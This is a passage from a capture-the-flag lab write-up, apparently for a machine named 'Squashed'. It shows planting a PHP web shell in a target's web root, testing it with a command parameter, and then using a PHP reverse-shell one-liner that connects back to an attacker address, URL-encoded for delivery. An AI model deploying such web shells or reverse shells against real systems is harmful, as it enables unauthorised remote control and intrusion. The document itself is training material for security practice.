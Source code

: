     We could see that there is nothing interesting is found in this directory. And we can infer that this directory contains all the files of the website that is hosted on the target. So we could create a simple backdoor in this directory and we could try to get a reverse shell to the target machine.
    
      
    
2. We can create a simple PHP backdoor in the current working directory :
    
    Backdoor: `<?php echo system($_GET[”cmd”]) ?>`
    
    ![Untitled 14.png](Squashed/assets/Untitled%2014.png)
    
    We can check whether our backdoor is working by sending a GET request using the cmd parameter that we have created using the backdoor.
    
    GET Request : `http://<IP-ADDRESS>/backdoor.php?cmd=id`
    
    ![Untitled 15.png](Squashed/assets/Untitled%2015.png)
    
    Our backdoor is working as we get the id of the user of the target machine. Let’s note the user details for further enumeration.
    
    username : `alex`
    
    uid : `2017`
    
      
    
3. Now we can use a simple PHP reverse shell
    
    `php -r '$sock=fsockopen("<IP-ADDRESS>",1234);exec("/bin/sh -i <&3 >&3 2>&3");’`
    
    We have to URL encode this reverse shell to use supply it as a parameter in the URL. To do that, use the following site [https://www.urlencoder.org](https://www.urlencoder.org/)[/](https://www.urlencoder.org/) to encode the above mentioned reverse shell.
    
    ![Untitled 16.png](Squashed/assets/Untitled%2016.png)
    